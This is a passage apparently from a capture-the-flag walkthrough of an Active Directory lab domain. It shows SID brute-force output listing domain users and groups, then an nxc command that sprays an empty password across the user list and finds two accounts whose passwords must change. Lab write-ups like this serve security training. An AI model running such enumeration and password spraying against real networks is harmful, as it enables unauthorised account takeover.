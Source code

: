 ### Output

```output
[*] Brute forcing SIDs at 10.10.91.145
[*] StringBinding ncacn_np:10.10.91.145[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3085872742-570972823-736764132
498: SENDAI\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: SENDAI\Administrator (SidTypeUser)
501: SENDAI\Guest (SidTypeUser)
502: SENDAI\krbtgt (SidTypeUser)
512: SENDAI\Domain Admins (SidTypeGroup)
513: SENDAI\Domain Users (SidTypeGroup)
514: SENDAI\Domain Guests (SidTypeGroup)
515: SENDAI\Domain Computers (SidTypeGroup)
516: SENDAI\Domain Controllers (SidTypeGroup)
517: SENDAI\Cert Publishers (SidTypeAlias)
518: SENDAI\Schema Admins (SidTypeGroup)
519: SENDAI\Enterprise Admins (SidTypeGroup)
520: SENDAI\Group Policy Creator Owners (SidTypeGroup)
521: SENDAI\Read-only Domain Controllers (SidTypeGroup)
522: SENDAI\Cloneable Domain Controllers (SidTypeGroup)
525: SENDAI\Protected Users (SidTypeGroup)
526: SENDAI\Key Admins (SidTypeGroup)
527: SENDAI\Enterprise Key Admins (SidTypeGroup)
553: SENDAI\RAS and IAS Servers (SidTypeAlias)
571: SENDAI\Allowed RODC Password Replication Group (SidTypeAlias)
572: SENDAI\Denied RODC Password Replication Group (SidTypeAlias)

```

On trying to login with null password, we’ll get two users with password to be changed

```bash
nxc  smb dc.sendai.vl -u users.txt -p '' --continue-on-success
```

### Output
```output
SMB         10.10.91.145    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False) 
SMB         10.10.91.145    445    DC               [+] sendai.vl\.: (Guest)
SMB         10.10.91.145    445    DC               [+] sendai.vl\..: (Guest)
SMB         10.10.91.145    445    DC               [-] sendai.vl\anthony.smith: STATUS_LOGON_FAILURE 
SMB         10.10.91.145    445    DC               [-] sendai.vl\clifford.davey: STATUS_LOGON_FAILURE 
SMB         10.10.91.145    445    DC               [-] sendai.vl\elliot.yates: STATUS_PASSWORD_MUST_CHANGE 
SMB         10.10.91.145    445    DC               [-] sendai.vl\lisa.williams: STATUS_LOGON_FAILURE 
SMB         10.10.91.145    445    DC               [-] sendai.vl\susan.harper: STATUS_LOGON_FAILURE 
SMB         10.10.91.145    445    DC               [+] sendai.vl\temp: (Guest)
SMB         10.10.91.145    445    DC               [-] sendai.vl\thomas.powell: STATUS_PASSWORD_MUST_CHANGE 

```
